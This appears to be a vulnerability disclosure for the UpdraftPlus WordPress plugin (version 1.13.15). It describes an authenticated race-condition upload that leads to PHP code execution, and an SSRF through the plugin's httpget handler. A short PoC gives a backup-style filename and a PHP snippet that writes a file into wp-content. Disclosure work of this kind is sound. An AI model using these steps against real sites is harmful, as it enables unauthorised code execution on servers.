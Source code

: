 # wordpress plugin updraftplus vulnerablity

标签（空格分隔）： 未分类

---

Vulnerability affects the latest version of the plug-in (1.13.15)


# authenticated  upload file and php code execution #

file `/wp-content/plugins/updraftplus/admin.php` line 1843 function `plupload_action`

via the name parameter to set filename, and move file content into this file.

The server will do a basic verification of the file name, you can get a valid backup file name,just like `backup_2017-11-29-1844_test_d6c634e49869-plugins.zip`.

![image.png-72.3kB][1]

after the 39 lines, this file be delete
![image.png-296.3kB][2]

there are Race condition, when we view this pages before delete after write in. we can make php code execution.


## PoC ##

file name just like:
```
backup_2017-11-29-1844_test_d6c634e49869-plugins
```

file content:
```
<?php
$f = fopen('../a.php','wb');
fwrite($f, '<?php phpinfo();?>');
fclose($f);
```

via upload this file, and view this pages before delete, we can write a a.php into `/wp-content/a.php`

（2017.11.29 Supplement Vulnerability Details）
![image.png-197.1kB][3]

![image.png-105.2kB][4]

![image.png-89.2kB][5]

![image.png-172.5kB][6]

# authentiicated ssrf #

file `/wp-content/plugins/updraftplus/admin.php` line 1233 function updraft_ajax_handler 

when `subaction='httpget'`the curl parameter follow into function http_get,

![image.png-26.1kB][7]

![image.png-163.4kB][8]

they will use curl to request url, it can be exploited to conduct server-side request forgery (SSRF) attacks.



## PoC ##

login and view website
```
http://127.0.0.1/wordpress4.8/wp-admin/options-general.php?page=updraftplus&tab=expert
```

![image.png-8.9kB][9]

use fetch(curl)

![image.png-20.9kB][10]



  [1]: http://static.zybuluo.com/LoRexxar/ypg8xnr3sond8644y8swl8jc/image.png
  [2]: http://static.zybuluo.com/LoRexxar/68a8puqj0k96ifgmryzi2ogw/image.png
  [3]: http://static.zybuluo.com/LoRexxar/ewecs9lrot08ijg2vlvituh9/image.png
  [4]: http://static.zybuluo.com/LoRexxar/u7y5hg3m1y2nj2c8kxbbhuk6/image.png
  [5]: http://static.zybuluo.com/LoRexxar/8o61e5tla9dglj0m5g2z7349/image.png
  [6]: http://static.zybuluo.com/LoRexxar/r1pfhrohhin6kj295zoqckjh/image.png
  [7]: http://static.zybuluo.com/LoRexxar/nvvhoe3gxmepnug6yf6aaojr/image.png
  [8]: http://static.zybuluo.com/LoRexxar/pksfa3e4gtjg6ztgnuubedkb/image.png
  [9]: http://static.zybuluo.com/LoRexxar/smc72erghubs8a1xvtzo5sjp/image.png
  [10]: http://static.zybuluo.com/LoRexxar/qa12ejx4ad0pf4c245fe3nqg/image.png